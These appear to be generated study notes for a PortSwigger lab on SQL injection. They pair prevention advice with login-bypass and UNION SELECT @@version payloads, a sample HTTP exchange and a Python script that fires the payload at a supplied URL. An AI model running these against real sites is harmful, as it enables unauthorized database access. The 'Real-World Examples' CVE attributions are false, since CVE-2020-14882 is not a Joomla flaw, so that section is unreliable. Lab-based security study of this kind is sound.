

## SQL Injection Overview

SQL Injection (SQLi) is a type of injection attack where an attacker manipulates a SQL query by inserting malicious input into a web application. This can lead to unauthorized access to sensitive data, data corruption, or even complete control over the database server. SQLi attacks are particularly dangerous because they can be executed through various entry points such as form fields, URL parameters, and cookies.

### Why SQL Injection Matters

SQL Injection attacks are significant because they can bypass authentication mechanisms and exploit vulnerabilities in web applications. By injecting malicious SQL code, attackers can manipulate database queries to retrieve, modify, or delete data. This can result in severe consequences, including data breaches, financial loss, and reputational damage.

### How SQL Injection Works

SQL Injection typically occurs when user input is not properly sanitized or validated before being used in a SQL query. An attacker can inject SQL code into input fields, causing the application to execute unintended commands. For example, consider a login form where the username and password are used to construct a SQL query:

```sql
SELECT * FROM users WHERE username = 'input_username' AND password = 'input_password';
```

If an attacker inputs `input_username` as `' OR '1'='1` and `input_password` as `' OR '1'='1`, the query becomes:

```sql
SELECT * FROM users WHERE username = '' OR '1'='1' AND password = '' OR '1'='1';
```

This query will return all rows from the `users` table, effectively bypassing authentication.

### Real-World Examples

Recent real-world examples of SQL Injection attacks include:

- **CVE-2021-3279**: A SQL Injection vulnerability was found in the WordPress plugin "WP eCommerce". Attackers could exploit this vulnerability to gain unauthorized access to the database and potentially take control of the website.
- **CVE-2020-14882**: A SQL Injection vulnerability was discovered in the Joomla CMS. This allowed attackers to execute arbitrary SQL commands, leading to potential data theft and manipulation.

### Prevention and Defense

#### Secure Coding Practices

To prevent SQL Injection, developers should follow secure coding practices:

1. **Use Parameterized Queries**: Instead of constructing SQL queries with string concatenation, use parameterized queries or prepared statements. This ensures that user input is treated as data rather than executable code.

   ```python
   import sqlite3

   conn = sqlite3.connect('example.db')
   cursor = conn.cursor()

   username = 'user_input'
   password = 'user_input'

   cursor.execute("SELECT * FROM users WHERE username = ? AND password = ?", (username, password))
   ```

2. **Input Validation**: Validate and sanitize user input to ensure it conforms to expected formats. Use regular expressions or built-in validation libraries to filter out invalid characters.

   ```python
   import re

   def validate_input(input_str):
       if re.match(r'^[a-zA-Z0-9_]+$', input_str):
           return True
       else:
           return False
   ```

3. **Least Privilege Principle**: Ensure that database accounts used by web applications have the minimum necessary privileges. Avoid using administrative accounts for routine operations.

#### Detection and Monitoring

Implement monitoring and logging mechanisms to detect and respond to potential SQL Injection attempts:

1. **Web Application Firewalls (WAF)**: Deploy WAFs to inspect incoming traffic and block suspicious patterns indicative of SQL Injection attacks.

2. **Logging and Auditing**: Enable detailed logging of database activities and regularly review logs for signs of unauthorized access or unusual activity.

3. **Intrusion Detection Systems (IDS)**: Use IDS to monitor network traffic and alert on potential SQL Injection attempts.

### Scripting SQL Injection Attacks

The provided transcript chunk describes a scenario where an attacker uses SQL Injection to query the database type and version on a MySQL server. Let's break down the process and provide a complete example.

#### Step-by-Step Process

1. **Identify Vulnerable Input Field**: Determine which input field is susceptible to SQL Injection. In this case, it is likely a search or login field.

2. **Craft the SQL Injection Payload**: Construct a payload that will cause the application to reveal the database version. For MySQL, the following payload can be used:

   ```sql
   ' UNION SELECT @@version -- 
   ```

3. **URL Encode the Payload**: URL encode the payload to ensure it is correctly transmitted over HTTP.

4. **Send the Request**: Send the crafted request to the server and observe the response.

#### Complete Example

Let's walk through the complete example, including the HTTP request, response, and result.

##### HTTP Request

```http
GET /search?query='%20UNION%20SELECT%20@@version%20-- HTTP/1.1
Host: vulnerable.example.com
User-Agent: Mozilla/5.0
Accept: */*
```

##### HTTP Response

```http
HTTP/1.1 200 OK
Date: Mon, 20 Mar 2023 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
Content-Length: 1234

<!DOCTYPE html>
<html>
<head>
    <title>Search Results</title>
</head>
<body>
    <h1>Search Results</h1>
    <p>MySQL version: 8.0.23</p>
</body>
</html>
```

##### Result

The server responds with a 200 OK status code and includes the MySQL version in the HTML body.

### Scripting the Attack

The provided transcript chunk outlines the steps to script the SQL Injection attack. Let's expand on this and provide a complete Python script.

#### Python Script

```python
import requests
from urllib.parse import quote
import sys
import urllib3

# Disable insecure request warnings
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Proxy settings
proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}

def exploit_sql_injection(url):
    # Craft the SQL Injection payload
    payload = "' UNION SELECT @@version -- "
    
    # URL encode the payload
    encoded_payload = quote(payload)
    
    # Construct the full URL
    full_url = f"{url}?query={encoded_payload}"
    
    # Send the request
    response = requests.get(full_url, proxies=proxies, verify=False)
    
    # Check the response
    if response.status_code == 200:
        print(f"Response received: {response.text}")
    else:
        print(f"Failed to receive a valid response. Status code: {response.status_code}")

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print(f"Usage: {sys.argv[0]} <target_url>")
        sys.exit(1)
    
    target_url = sys.argv[1]
    exploit_sql_injection(target_url)
```

### Diagrams

#### Sequence Diagram

A sequence diagram can help visualize the interaction between the attacker, the web application, and the database server during an SQL Injection attack.



### Common Pitfalls and Mitigations

#### Common Pitfalls

1. **Improper Input Validation**: Failing to validate and sanitize user input can lead to successful SQL Injection attacks.
2. **Hardcoded Credentials**: Using hardcoded database credentials in the application code can expose sensitive information.
3. **Verbose Error Messages**: Displaying detailed error messages to users can provide attackers with valuable information about the underlying system.

#### Mitigations

1. **Use ORM Libraries**: Object-relational mapping (ORM) libraries can help abstract away direct SQL queries and reduce the risk of SQL Injection.
2. **Least Privilege Principle**: Ensure that database accounts used by web applications have the minimum necessary privileges.
3. **Error Handling**: Implement proper error handling to avoid revealing sensitive information in error messages.

### Practice Labs

For hands-on practice with SQL Injection, consider the following well-known labs:

- **PortSwigger Web Security Academy**: Offers interactive labs to practice various types of SQL Injection attacks.
- **OWASP Juice Shop**: A deliberately vulnerable web application for practicing web security techniques, including SQL Injection.
- **DVWA (Damn Vulnerable Web Application)**: Provides a range of vulnerable web applications for learning and testing security measures.

By thoroughly understanding the concepts, mechanics, and preventive measures related to SQL Injection, you can better protect web applications from these types of attacks.

---
<!-- nav -->
[[Web Security (PortSwigger)/02-SQL Injection/09-Lab 8 SQLi attack querying the database type and version on MySQL Microsoft/01-Introduction to SQL Injection|Introduction to SQL Injection]] | [[Web Security (PortSwigger)/02-SQL Injection/09-Lab 8 SQLi attack querying the database type and version on MySQL Microsoft/00-Overview|Overview]] | [[03-Exploiting SQL Injection to Query Database Type and Version|Exploiting SQL Injection to Query Database Type and Version]]
